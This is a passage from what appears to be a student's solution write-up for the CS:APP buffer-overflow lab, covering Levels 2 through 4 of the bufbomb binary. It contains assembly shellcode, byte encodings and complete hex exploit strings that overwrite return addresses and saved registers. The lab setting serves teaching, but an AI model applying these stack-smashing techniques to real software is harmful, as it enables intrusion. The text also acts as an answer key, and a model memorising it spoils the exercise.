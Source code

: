 To get byte encoding of above instructions, assemble this file with `gcc -m32 -c` and disassemble it with
`objdump -d`:
```asm
   0:	c7 05 00 d1 04 08 89 	movl   $0x44fa5d89,0x804d100
   7:	5d fa 44 
   a:	68 9d 8c 04 08       	push   $0x8048c9d
   f:	c3                   	ret  
```
So the answer will be:  
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 c7 05 00 d1
04 08 89 5d fa 44 68 9d
8c 04 08 c3 74 39 68 55
```

# Level 3 : Boom
Our job for this level is to supply an exploit string that will cause `getbuf` to return cookie back to`test`
, rather than the value 1, which will cause the program to go “Boom!.”  
Our exploit code should set cookie as the return value, restore any corrupted state, push
the correct return location on the stack, and execute a ret instruction to really return to `test`, it looks like:  
```asm
movl $0x44fa5d89, %eax
push $0x8048dbe
ret
```  
Byte encodeing: 
```asm
   0:	b8 89 5d fa 44       	mov    $0x44fa5d89,%eax
   5:	68 be 8d 04 08       	push   $0x8048dbe
   a:	c3                   	ret  
```
Preceding steps are similar to Level 2, but there is one more thing : restore any corrupted state.   
To achieve that, we rewrite saved ebp with the original value 0x556839b0, so the answer will be:  
```
b8 89 5d fa 44 68 be 8d
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 39 68 55 58 39 68 55
```

# Level 4 : Nitroglycerin
For this Level, we have to run `BUFBOMB` with the command line flag “-n,” it will run in “Nitro” mode. Rather than calling
the function `getbuf`, the program calls a slightly different function`getbufn`:  
```c
/* Buffer size for getbufn */
#define KABOOM_BUFFER_SIZE 512
```  
This function is similar to `getbuf`, except that it has a buffer of 512 characters.  You will need this additional
space to create a reliable exploit.  The code that calls `getbufn` first allocates a random amount
of storage on the stack,  such that if you sample the value of %ebp
during  two successive  executions  of getbufn, you would find they differ by as much as ± 240.  
In addition,  when run in Nitro mode, `BUFBOMB` requires  you to supply  your  string  5 times,  and it will